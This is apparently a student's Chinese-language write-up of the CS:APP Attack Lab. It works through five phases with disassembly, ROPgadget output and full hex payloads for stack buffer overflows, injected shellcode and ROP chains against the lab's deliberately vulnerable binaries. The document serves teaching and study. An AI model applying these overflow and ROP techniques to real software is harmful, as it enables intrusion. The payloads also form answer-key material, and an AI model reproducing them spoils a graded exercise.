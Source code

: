 # 第三周lab实验笔记
本次实验共五个任务，前三个在ctaget上，4和5在rtarget上。 
一开始看这个实验一脸懵逼，看的官网的writewp大体明白了这个实验是个啥子意思

## phase_1
根据writewp上的源码，我们需要通过栈溢出控制程序流程跳转至touch1函数
test函数源码
```
1 void test()
2 {
3 int val;
4 val = getbuf();
5 printf("No exploit. Getbuf returned 0x%x\n", val);
6 }
```
test函数中调用了getbuf函数，查看其反汇编代码
```
pwndbg> disassemble getbuf
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:	sub    rsp,0x28
   0x00000000004017ac <+4>:	mov    rdi,rsp
   0x00000000004017af <+7>:	call   0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    eax,0x1
   0x00000000004017b9 <+17>:	add    rsp,0x28
   0x00000000004017bd <+21>:	ret    
```
可以看到只需要溢出0x28的数据即可覆盖rip控制程序流程
查看touch1的地址
```
pwndbg> p touch1
$1 = {void ()} 0x4017c0 <touch1>
```
然后就是这次实验给出的工具hex2raw，我们需要通过这个工具生成字符串完成实验
创建attach.txt并在其中存入如下内容
```
61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61
61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61
61 61 61 61 61 61 61 61 c0 17 40
```
前面这些a的十六进制表示我是拿010生成的，后面再手动补上小端存储的touch1地址
然后执行程序完成本次实验
![avatar](https://github.com/AmaIIl/attacklab/blob/gh-pages/image1.png)

## phase_2
touch2源代码
```
1 void touch2(unsigned val)
2 {
3 vlevel = 2; /* Part of validation protocol */
4 if (val == cookie) {
5 printf("Touch2!: You called touch2(0x%.8x)\n", val);
6 validate(2);
7 } else {
8 printf("Misfire: You called touch2(0x%.8x)\n", val);
9 fail(2);
10 }
11 exit(0);
12 }
```
程序要求我们令val的值等于我们的cookie值才能通过，而val则是作为函数的第一个参数传入，也就是说只要让rdi寄存器的值等于cookie就可以了
使用ROPgadget找到如下gadget
```
0x000000000040141b : pop rdi ; ret
```
然后构造ROP链如下所示
```
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 1b 14 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00 ec 17 40 00 00 00 00 00
```
完成phase_2
![avatar](https://github.com/AmaIIl/attacklab/blob/gh-pages/image2.png)

嗯，做到后面猛然发现，前三题是要用code-injection做的，重来重来
思路还是一样的可以通过构造如下方式完成等同于ROP链的效果
```
mov    $0x59b997fa, %rdi
push   $0x4017ec
ret
```
然后还需要将rsp寄存器的地址作为第一次返回地址
![avatar](https://github.com/AmaIIl/attacklab/blob/gh-pages/image5.png)
这样就可以完成本题了
```
48 c7 c7 fa 97 b9 59 	
68 ec 17 40 00       	
c3 
00 00 00 00 00 00 00
00 00 00 00 00 00 00
00 00 00 00 00 00 00
00 00 00 00 00 00
78 dc 61 55
```
![avatar](https://github.com/AmaIIl/attacklab/blob/gh-pages/image6.png)

## phase_3
touch3的源码
```
1 /* Compare string to hex represention of unsigned value */
2 int hexmatch(unsigned val, char *sval)
3 {
4 char cbuf[110];
5 /* Make position of check string unpredictable */
6 char *s = cbuf + random() % 100;
7 sprintf(s, "%.8x", val);
8 return strncmp(sval, s, 9) == 0;
9 }
10
11 void touch3(char *sval)
12 {
13 vlevel = 3; /* Part of validation protocol */
14 if (hexmatch(cookie, sval)) {
15 printf("Touch3!: You called touch3(\"%s\")\n", sval);
16 validate(3);
17 } else {
18 printf("Misfire: You called touch3(\"%s\")\n", sval);
19 fail(3);
20 }
21 exit(0);
22 }
```
发现其调用了hexmathch函数，并将cookie和sval作为指针传入其中。
hexmatch函数会将我们的cookie值以字符串形式输出，然后与rdi中的值进行比对，相同则通过程序。
```
mov    $0x5561dca8, %rdi
push   $0x4018fa
ret
```
使用caller的栈顶地址作为存放字符串的地址，然后将其赋值给rdi，这样就可以避免其被覆盖
可以通过gdb调试找到caller的栈顶地址
![avatar](https://github.com/AmaIIl/attacklab/blob/gh-pages/image8.png)
转换后
```
48 c7 c7 a8 dc 61 55 68 
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
```
![avatar](https://github.com/AmaIIl/attacklab/blob/gh-pages/image7.png)

## phase_4
跟phase_2一样的题目，但是需要通过ROP完成攻击。
然后构造ROP链如下所示
```
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 1b 14 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00 ec 17 40 00 00 00 00 00
```
![avatar](https://github.com/AmaIIl/attacklab/blob/gh-pages/image9.png)

##phase_5
同phase_3的题目一样的要求，不过这次栈地址随机化弄得很难受
不过用ROPgadget看了一下有惊喜
```
0x0000000000401383 : pop rsi ; ret
0x0000000000401a06 : mov rax, rsp ; ret
0x00000000004019a2 : mov rdi, rax ; ret
0x00000000004019d6 : lea rax, [rdi + rsi] ; ret
```
可以用这几个gadget构造ROP链
```
pop rsi ; ret
0x20
mov rax, rsp ; ret
mov rdi, rax ; ret
lea rax, [rdi + rsi] ; ret
mov rdi, rax ; ret
touch3_addr
cookie_string
```
转换成16进制小端存储
```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
83 13 40 00 00 00 00 00
20 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61
```
完成本题

![avatar](https://github.com/AmaIIl/attacklab/blob/gh-pages/image10.png)



